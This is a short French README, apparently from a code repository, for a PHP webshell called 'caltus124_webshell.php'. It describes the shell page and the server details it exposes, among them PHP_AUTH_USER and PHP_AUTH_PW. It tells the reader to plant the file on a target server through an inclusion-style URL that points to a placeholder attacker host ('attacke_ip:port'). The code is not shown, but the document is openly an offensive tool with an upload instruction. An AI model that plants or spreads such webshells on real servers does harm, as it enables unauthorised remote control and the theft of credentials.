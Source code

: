 # webshell

Webshell est une page en .php ou il y'a un shell et plusieur information sur le serveur sible.
Il faut télécharger le fichier "caltus124_webshell.php" sur un serveur sible comme par exemple:
"https://google.com?=http://attacke_ip:port/caltus124_webshell.php"

Composition de la page:

-Nom de l'OS du serveur(Linux ou Windows).

-Webshell.

-List d'informations sur le serveur sible.


'PHP_SELF',
'argv',
'argc',
'GATEWAY_INTERFACE',
'SERVER_ADDR',
'SERVER_NAME',
'SERVER_SOFTWARE',
'SERVER_PROTOCOL',
'REQUEST_METHOD',
'REQUEST_TIME',
'REQUEST_TIME_FLOAT',
'QUERY_STRING',
'DOCUMENT_ROOT',
'HTTP_ACCEPT',
'HTTP_ACCEPT_CHARSET',
'HTTP_ACCEPT_ENCODING',
'HTTP_ACCEPT_LANGUAGE',
'HTTP_CONNECTION',
'HTTP_HOST',
'HTTP_REFERER',
'HTTP_USER_AGENT',
'HTTPS',
'REMOTE_ADDR',
'REMOTE_HOST',
'REMOTE_PORT',
'REMOTE_USER',
'REDIRECT_REMOTE_USER',
'SCRIPT_FILENAME',
'SERVER_ADMIN',
'SERVER_PORT',
'SERVER_SIGNATURE',
'PATH_TRANSLATED',
'SCRIPT_NAME',
'REQUEST_URI',
'PHP_AUTH_DIGEST',
'PHP_AUTH_USER',
'PHP_AUTH_PW',
'AUTH_TYPE',
'PATH_INFO',
'ORIG_PATH_INFO'.
